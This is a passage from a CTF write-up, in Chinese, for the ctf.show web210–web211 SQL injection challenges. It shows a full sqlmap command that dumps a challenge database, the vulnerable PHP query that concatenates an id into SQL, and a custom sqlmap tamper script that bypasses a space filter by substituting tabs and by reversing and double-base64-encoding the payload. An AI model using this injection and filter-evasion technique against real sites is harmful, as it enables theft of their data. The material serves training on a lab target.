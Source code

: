 
payload:


```
python sqlmap.py -u "http://35600981-0e61-43e6-85ce-38d9cc6eeaf5.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=bffum6tr2u1k3h8l9bgtkst4ni;" --referer=ctf.show -D ctfshow_web --safe-url="http://35600981-0e61-43e6-85ce-38d9cc6eeaf5.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web210 -T ctfshow_flavi --dump
```



#### web211

```
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
      
返回逻辑

//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ /', $str);
}

```

增加了空格waf

问题不大

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY
import base64

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass


def tamper(payload, **kwargs):
	
    payload0 = payload.replace(" ", chr(0x09))
    rev1 = payload0[::-1].encode()
    encode1 = base64.b64encode(rev1).decode()
    rev2 = encode1[::-1].encode()
    encode2 = base64.b64encode(rev2).decode()
    return encode2
```
